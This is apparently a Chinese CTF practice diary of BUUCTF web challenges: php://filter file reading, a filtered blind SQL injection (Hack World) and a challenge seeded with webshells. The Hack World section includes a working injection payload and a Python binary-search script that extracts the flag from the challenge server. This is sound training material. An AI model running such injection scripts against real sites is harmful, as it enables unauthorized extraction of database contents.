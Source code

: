 ```yaml
---
layout: article
mathjax: true
tag: buu
---
```


# buu刷题（摸鱼）日记2

## [ACTF2020 新生赛]Include

居然忘了php://filter伪协议，真是屑啊。

很简单，直接读flag

## [CISCN2019 华北赛区 Day2 Web1]Hack World

sql注入自古弱项，研究一下

先上burp炸，用sql insert list 炸。

发现过滤单引号 双引号 注释符号 空格等，并且返回中有布尔值

应该是个盲注

（接下来我就做不来了（毕竟我真的菜））

------------

分析一下wp里的payload:

```php
(ascii(substr((select(flag)from(flag)),1,1))<128)
```

selec flag from flag不多说，从表里找字段

找出来的字段显然没有回显，需要进行判断。刚好由于弱类型，如果是true就会以1带入，如果false就是0

然而输入0和1回显是不一样的，就可以创造盲注的契机

试一下二分法写了个jo本

```python
import requests

url="http://cb7ec2dc-f0ba-46bf-b97e-800896e15726.node3.buuoj.cn/index.php"

ch = 0
flag = ""

for i in range(1,50):
    high = 128
    low = 32
    mid = (high + low) // 2
    while(high>low):
        
        payload = {"id":"(ascii(substr((select(flag)from(flag)),%d,1))<%d)"%(i,mid)}
        r = requests.post(url=url,data=payload).text
        if "glzjin" in r:
            high = mid 
        else:
            low = mid + 1

        mid = (high + low) // 2

    # print(mid)
    flag += chr(int(mid-1))
    print(flag)

```

二分法是好文明,一分钟左右出flag

## [强网杯 2019]高明的黑客

强网杯的题目各个都是高达（我是废物）

点开题目

# 雁过留声，人过留名，此网站已被黑

我也是很佩服你们公司的开发，特地备份了网站源码到www.tar.gz以供大家观赏



下载源码以后把我吓傻了

这tm都是啥

毫不犹豫去看wp

看到[赵师傅的博客](https://zhaoj.in/read-5873.html)

其实思路很简单，自带webshell，自己去找，考验写py脚本能力了（我不太行，萎了）